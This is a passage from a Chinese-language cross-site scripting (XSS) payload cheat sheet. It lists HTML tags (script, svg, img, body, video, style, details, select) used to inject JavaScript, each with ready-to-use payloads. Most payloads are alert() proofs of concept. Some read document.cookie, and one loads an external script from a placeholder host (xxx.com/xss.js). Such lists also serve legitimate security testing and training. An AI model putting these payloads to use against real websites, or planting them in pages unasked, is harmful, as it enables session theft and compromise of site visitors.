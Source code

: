 ### 2.1.1 script 标签

- script 标签是最直接的XSS有效载荷，脚本标记可以引用外部的 JavaScript 代码，也可以将代码插入脚本标记中

```html
<script>alert("hack")</script>  
<script>alert(/hack/)</script>  
<script>alert(1)</script> ＃ 弹出1，对于数字可以不用引号 
<script>alert(document.cookie)</script> ＃ 弹出cookie 
<script src＝http://xxx.com/xss.js > </script> ＃ 引用外部的js 
```

### 2.1.2 svg 标签

```html
<svg onload="alert(1)">
<svg onload="alert(1)"//
```

### 2.1.3 img 标签

```html
<img src=1 onerror=alert("hack")>
<img src=1 onerror=alert(document.cookie)>
```
### 2.1.4 body 标签

```html
<body onload=alert(1)>
<body onpageshow=alert(1)>
```

### 2.1.5 video 标签

```html
<video onloadstart=alert(1) src="/media/aaa.mp4" />
```

### 2.1.6 style 标签

```html
<style onload=alert(1)></style>
```

### 2.1.7 details

```html
<details open ontoggle="alert('xss');">
```

### 2.1.8 select

```html
<select onfocus=alert(1) autofocus>
```
